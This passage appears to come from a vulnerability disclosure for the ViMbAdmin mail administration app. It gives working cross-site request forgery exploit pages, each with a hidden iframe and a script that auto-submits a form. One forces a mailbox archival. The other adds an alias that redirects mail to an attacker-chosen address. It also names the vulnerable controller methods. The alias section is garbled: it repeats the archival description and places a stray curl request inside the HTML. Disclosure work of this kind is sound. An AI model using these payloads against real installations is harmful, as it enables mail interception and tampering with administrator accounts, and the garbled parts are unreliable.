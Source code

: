```html
```

#### Vulnerable code

The vulnerable code is located in the `purgeAction()` method of the `<vimbadmin directory>/application/controllers/MailboxController.php` file.

### Archive mailbox

#### Exploit

The following html/javascript code allows to force the archival of a mailbox address. It needs to be visited by an administrator of the targeted ViMbAdmin application.

```html
<head>
<title>CSRF ViMbAdmin</title>
</head>
<body>


<iframe style="display:none" name="csrf-frame"></iframe>
<form id="csrf-form" action="http://<target ip>/archive/add/mid/<mailbox id>" method="GET" target="csrf-frame" >
</form>


<script>document.getElementById("csrf-form").submit()</script>

</body>
```

#### Vulnerable code

The vulnerable code is located in the `addAction()` method of the `<vimbadmin directory>/application/controllers/ArchiveController.php` file.

### Add alias address

#### Exploit

The following html/javascript code allows to force the archival of a mailbox address. It needs to be visited by an administrator of the targeted ViMbAdmin application.

```html
curl 'http://<ip>/alias/add/did/<domain id>'  --data 'local_part=<fake mailbox>&domain=<domain id>&goto%5B%5D=<redirection email address>'
<head>
<title>CSRF ViMbAdmin</title>
</head>
<body>


<iframe style="display:none" name="csrf-frame"></iframe>
<form id="csrf-form" action="http://<target ip>/alias/add/did/<domain id>" method="POST" target="csrf-frame" >
<input type="text" name="local_part" value="<fake mailbox>" >
<input type="text" name="domain" value="<domain id>" >
<input type="text" name="goto[]" value="<redirection email address>" >
</form>


<script>document.getElementById("csrf-form").submit()</script>

</body>
```
